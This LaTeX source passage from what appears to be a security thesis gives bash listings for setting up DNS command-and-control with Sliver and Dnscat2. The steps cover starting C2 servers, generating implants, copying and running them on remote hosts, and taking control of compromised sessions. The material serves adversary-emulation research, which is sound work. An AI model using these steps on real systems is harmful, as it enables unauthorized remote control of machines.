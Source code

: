 \documentclass [11pt, proquest] {uwthesis}[2020/02/24]
\begin{document}
\subsubsection{Sliver}
Sliver being the highest reputed adversary emulation framework developed by BishopFox for advanced penetration testing, the official documentation provides detailed steps on \href{https://github.com/BishopFox/sliver/blob/master/README.md}{Github} to clone and build the sliver C2 framework.
\begin{lstlisting}[language=bash,caption={Steps to use Sliver for DNS C2},label={lst:sliver-steps}]
# 1. Start Sliver C2 server on attacker node
sliver-server
# 2. Connect to Sliver client console from same node
sliver-client
# 3. Start the DNS Server job 
job -d <c2_domain>. 
# 3. Generate implant binary for session based (less stealthy generate more DNS traffic during C2 attacks)
generate --dns <c2_domain> --debug --os linux --arch amd64 --save /tmp/implant 
# 3. Generate implant binary for session based (less stealthy generate more DNS traffic during C2 attacks)
generate --dns <c2_domain> --poll-timeout <beacon_interval> --debug --os linux --arch amd64 --save /tmp/implant_beacon 
# 4. Transfer implant to any host in data plane
scp /tmp/implant user@remote:/tmp/
# 5. Run the implant on the remote host
chmod +x /tmp/implant
chmod +x /tmp/implant_beacon
./tmp/implant
./tmp/implant_beacon
# 6 carry all the c2 attacks once system is compromised and beacon, session implant connected to c2 server
# 6. Confirm session, beacons established in Sliver console
sessions
beacons
# 7. connect sliver c2 server to start exploiting compromised sessions or beacons
use <session_id>
use <beacon_id>
\end{lstlisting}


\subsubsection{Dnscat2}
Dnscat2 documentation for building the dnscat2 server and client can be found on official documentation page at \href{https://github.com/iagox86/dnscat2/blob/master/README.md}{Github}.
\newpage
\begin{lstlisting}[language=bash,caption={Steps to use Dnscat2 for Dns C2},label={lst:dnscat2-steps}]
# 1. Start Dnscat2 C2 server on attacker node without port obfuscation, default DNS tunnelling over Port 53/udp 
sudo ruby dnscat2.rb --dns 'host=<attacker_node>,domain=<c2_domain>'
# 2. Connect to dnscat c2 server from compromised node in data plan
./dnscat --secret=<c2_connection_secret> <c2_domain>
# 6 carry all the c2 attacks once compromised node is connected to C2 server.
\end{lstlisting}
\end{document}
